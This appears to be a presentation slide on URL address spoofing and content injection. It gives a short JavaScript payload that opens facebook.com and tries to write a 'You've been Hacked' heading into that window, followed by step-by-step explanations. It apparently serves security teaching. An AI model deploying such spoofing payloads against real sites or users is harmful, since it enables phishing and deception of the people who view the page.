

# URL Address Spoofing/Content Injection
<script>
w=window.open('https://facebook.com/');
w.document.write("<h1>You 've been Hacked</h1>");
w.focus();
</script>
Open https://facebook.com and assign it to w.
Try to write “<h1>You 've been Hacked</h1>” to DOM using w.document.write()
Focus the window corresponding to w.